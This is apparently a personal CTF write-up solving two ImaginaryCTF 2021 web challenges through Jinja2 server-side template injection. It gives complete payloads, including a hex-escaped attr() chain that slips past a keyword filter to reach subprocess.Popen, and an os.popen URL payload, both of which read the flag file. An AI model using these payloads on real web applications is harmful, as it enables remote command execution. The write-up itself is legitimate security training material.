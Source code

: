 - ## Imaginary ctf 2021(Build-a-website):
  Problem: Web page had an input box for html code. Entering {{7*7}} reurns 49. Thus it is prone too ssti
  Initial payload: ```{{ ()|attr('__\x63\x6c\x61\x73\x73__')|attr('__\x62\x61\x73\x65__')|attr('__\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73__')() }}```
  This was interesting, the filer in the script didnt allow use of class, base or global so the attr was used instead and hexadecimal notations of class,
  base and subclasses was used which makes the payload in ascii:
  ```{{__class__.__base__.__subclasses__}}``` <br>
  The empty tuple () in the expression serves as an object from which we can start chaining attribute lookups <br>
  the | operator is used to chain these filters together, applying each one in sequence to transform the value step by step. <br>

  This gives a list of all the modules. Index of ```<class 'subprocess.Popen'>``` at 360.

  Final payload: ```{{()|attr('__\x63\x6c\x61\x73\x73__')|attr('__\x62\x61\x73\x65__')|attr('__\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73__')()|attr('__getitem__')(360)("cat flag.txt",shell=True,stdout=-1)|attr('communicate')()}}```

- ## Imaginary ctf 2021(Sinking calculator): 
![image](https://github.com/poorvi1910/Web/assets/146640913/f78f996d-601d-45c4-a6dc-35fb80e43e82)
In this code, the input length is limited to 80 chars and output is only printed if it has numbers or minus.
Payload: ```calc?query=config.class.init.globals[%27os%27].popen(%27od%20-b%20-An%20fla*%27).read()``` <br>
translates to ```config.class.init.globals['os'].popen('od -b -An fla*').read()```. The command ```od -b -An fla*``` is used to display file contents in octal format, without displaying the filename (-An)
  - od: This is the "octal dump" command, which is used to display file contents in different formats (octal, hexadecimal, decimal, ASCII, etc.).
  - b: This option tells od to display the output in octal bytes. Each byte in the file(s) will be displayed as a three-digit octal number.
  - An: This option tells od to suppress the default output of file offsets. Normally, od prefixes each line of output with the byte offset of that line within the file. -An removes these offsets from the output.
  - fla*: This is a shell glob pattern. It matches any files in the current directory whose names start with "fla". For example, it could match files like "flag.txt", "flag1.txt", etc.
<br>
The ouput gives a string of numbers which when converted from octal to ascii gives the flag.
